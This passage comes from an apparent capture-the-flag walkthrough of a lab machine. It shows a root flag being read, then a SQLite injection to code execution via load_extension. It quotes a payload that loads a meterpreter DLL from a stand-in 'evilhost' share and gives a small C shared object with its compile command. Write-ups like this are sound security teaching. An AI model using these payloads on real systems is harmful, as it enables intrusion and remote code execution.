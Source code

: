 This shell has no PATH, so I can either set it, or run everything with full path:

```

root@drive:/root# /bin/ls
root.txt
root@drive:/root# /bin/cat root.txt
641e7a5b************************

```

### Via SQLi / load\_extension

#### Strategy

The `activate_user_account` function asks for input which is used to build a command string. If I can bypass the filter function, then I can inject into that SQLite call. The [PayloadsAllTheThings page on SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---load_extension) shows this POC for getting RCE via SQLite:

```

UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--

```

It’s loading a DLL from a file share to run on a Windows host. Still, this is enough to get me looking at the `load_extension` [function](https://www.sqlite.org/c3ref/load_extension.html), which seems to load a shared object file and call `sqlite3_extension_init`.

#### POC load\_extension

First I want to get a payload that will run. I’ll create a very simple POC program in C:

```

#include <stdlib.h>

void sqlite3_extension_init() {
    system("id");
}

```

I’ll compile that into a shared object:

```

oxdf@hacky$ gcc -shared -fPIC poc.c -o poc.so
oxdf@hacky$ file poc.so
poc.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=1d5a4c0bc52b6a08141a4c04150203fbfc155bdf, not stripped

```

Now I’ll run `sqlite3` and try to get it loaded. To run commands from the command line, I’ll need to give it a DB to open, but it doesn’t have to actually exist if I’m not querying any tables:
